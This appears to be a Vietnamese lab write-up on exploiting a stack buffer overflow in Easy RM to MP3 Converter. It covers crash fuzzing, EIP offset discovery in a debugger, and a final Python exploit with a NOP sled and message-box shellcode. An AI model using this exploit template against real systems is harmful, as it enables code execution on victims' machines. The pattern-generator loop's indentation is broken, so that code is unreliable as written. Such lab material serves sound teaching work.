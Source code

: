 # babe kajima 

## Mô hình 

- Sử dụng CentOS7 cài đặt python 
- Sử dụng win7 32 bit cài đặt python 2.7.14

## Tải phần mềm Easy RM to MP3 Converter

Bước 1: 

- Tải phần mềm cài đặt tại <a href="https://samsclass.info/127/proj/707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter.exe">đây</a>.

- Sau khi cài đặt xong 


    <img src="https://i.imgur.com/i3F63B2.png">

- Trên máy CentOS sử dụng chương trình python tạo ra 10000 kí tự A 

    ```
    vim gen_payload.py
    ```
    ```
    #!/usr/bin/python
    attack = 'A' * 10000
    print attack
    ````

    Ghi vào một file đuôi m3u

    ```
    python gen_payload.py > demo.m3u
    ```

    Sử dụng python run webserver 

    ```
    python -m SimpleHTTPServer 8888
    ```

- Trên máy win7 truy cập vào http://IP_centos:8888 tải file demo.m3u

    <img src="https://i.imgur.com/2sFEiyO.png">

- Chạy demo.m3u trên ứng dụng convert 

    Chọn Load sau đó tới đường dẫn thư mục chứa demo.m3u đã tải về 

    <img src="https://i.imgur.com/cpguxpo.png">

Bước 2: 

- Làm tương tự bước 1 tăng lên 20000 kí tự 
- Đến 30000 kí tự ứng dụng bị crash 

    <img src="https://i.imgur.com/OQcdziQ.png">

Bước 3: 

- Tạo ra một chuỗi payload để xác định độ dài buffer 

    ```
    #!/usr/bin/python

    prefix = 'A' * 20000
    chars = ''
    for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
        for j in range(0x30, 0x3A):
            chars += chr(a) + chr(a) + chr(i) + chr(j)
    attack = prefix + chars
    print attack
    ```

    ```
    python gen_payload.py > payload.m3u
    ```

    payload gồm 20000 kí tự A và 25000 một nhóm gồm 4 kí tự có dạng như sau 

    ```
    A...
    A...
    A...
    AA00 AA01 AA02 ... AA98 AA99 
    BB00 BB01 BB02 ... BB98 BB99 
                ...
    PP00 ...  PP22 PP23 ... PP99 
                ...
    YY00 YY01 YY02 ... YY98 YY99
    ```


Bước 4: 

- Mở Immunity Debugger click File => Open 

    <img src="https://i.imgur.com/QQIRM2Q.png">

- F9 để run ứng dụng 
- Load file chứa payload

    <img src="https://i.imgur.com/ZGf8pRw.png">

- Giá trị EIP đang là 50313250 

```
50 P
31 1
32 2
50 P
```
Intel processors are "Little Endian", so addresses are inserted in reverse order => EIP là 'P21P'

- P21P năm ở hàng số  16 cột số  21 => 15*400 + 21*4 +1

=> buffer có độ dài 6085


Bước 6: exploit 

    ```
    #!/usr/bin/python

    prefix = 'A' * (20000 + 15*400 + 21*4 + 1)
    eip = '\x58\xb0\x01\x10'
    skip4 = 'FFFF'
    nopsled = '\x90' * 16
    shellcode = (
    "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" + 
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
    )
    int3 = '\xCC'
    padding = 'F' * (30000 - len(prefix) - 4 -4 -16 - 1 - len(shellcode))
    attack = prefix + eip + skip4 + nopsled + shellcode + int3 + padding
    print attack
    ```

Bước 7: 

<img src="https://i.imgur.com/xUTdzLO.gif">
